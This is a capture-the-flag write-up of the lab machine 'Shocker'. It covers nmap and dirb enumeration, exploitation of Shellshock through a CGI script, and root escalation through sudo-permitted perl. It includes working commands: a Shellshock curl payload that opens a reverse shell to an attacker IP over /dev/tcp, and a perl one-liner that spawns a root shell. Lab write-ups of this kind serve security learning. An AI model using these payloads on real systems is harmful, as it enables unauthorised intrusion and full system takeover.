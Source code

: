 # Enumeration

## Nmap

I start off with a simple nmap of the system. Looks like the system is running an Apache server over port 80 and OpenSSH over port 2222.

```bash
nmap -sC -sV shocker.htb > nmap.txt
```

![Untitled](POC/nmap.png)

## Website

### Page

Visiting the webpage I see a simple image of a bug saying “Don’t Bug Me!”

![Untitled](POC/website.png)

Checking the source doesnt reveal any further information as well.

```html
<!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

### Dirb

Since I can’t find any giveaways on the page itself, I’ll run dirb to brute force some possible directories. I find a directory by the name of `cgi-bin/` which seems interesting to me, I should google this directory name and see if I can find any vulnerabilities.

![Untitled](POC/dirb.png)

After doing some research, it seems that cgi-bin is a directory containing CGI scripts which can be used to call out to applications hosted on the server. 

After a bit more digging, it seems that CGI scripts are typically shell, cgi, or perl scripts. I will run dirb again against the cgi-bin directory, this time searching for shell scripts. This reveals `/cgi-bin/user.sh`

![Untitled](POC/dirb2.png)

Traveling to the address prompts me to download the script, which I do. I’ll cat the file out to see what its contents are. The contents look like the results of the `uptime` command. So this is probably a script ruinning on the box.

![Untitled](POC/shell_script.png)

## Shellshock

One of the [results](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) I ran into while searching for `cgi-bin/` vulnerabilities was for the ShellShock vulnerability. From what I can find it was a Bash vulnerability found in 2014 allowing for command execution due to how environment variables were handles.

The POC shown in this article shows how Bash will take `x='() { :;};’` as a function, and then execute the commands that come after it. For example with the following input:

```bash
$ env x='() { :;}; echo vulnerable' bash -c "echo test"
```

The output would be:

```bash
vulnerable
test
```

If an Apache server has CGI enabled, this can be exploited. To test this, I send a request testing if the system is vulnerable to shellshock:

```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](POC/vulnerable.png)

Looks like this system is vulnerable!

# Exploitation

## Shellshock Reverse Shell

I set up a netcat listener on port 1234 and send the following payload to receive a connection back.

```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.2/1234 0>&1" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](POC/reverse_shell.png)

We’re in!

## User Flag

Running `whoami` we can see we are the user shelly, first I’ll navigate to the users home directory and grab the user flag.

![Untitled](POC/user_flag.png)

# Privelege Escalation

## Sudo Commands

The first thing I always do to check for possible privelege escalation vectors is running the `sudo -l` command because of how quick it is. In this case it looks like shelly is able to run perl as root, this will be easy!

![Untitled](POC/shelly_sudo.png)

## Perl

Perl is a simple binary to use for priv esc, but I’ll usually check [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) to see how a binary can be exploited, as there is typically more than one way.

Because Perl is not complicated, I can just use the `-e` flag to run it directly from command line. I’ll then use the `exec` command to launching a new shell as root.

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

With my new shell launched, I run `whoami` once more to reveal that I am now root.

![Untitled](POC/root.png)

## Root Flag

Now all that needs to be done is navigate to the root directory and grab the root flag!

![Untitled](POC/root_flag.png)
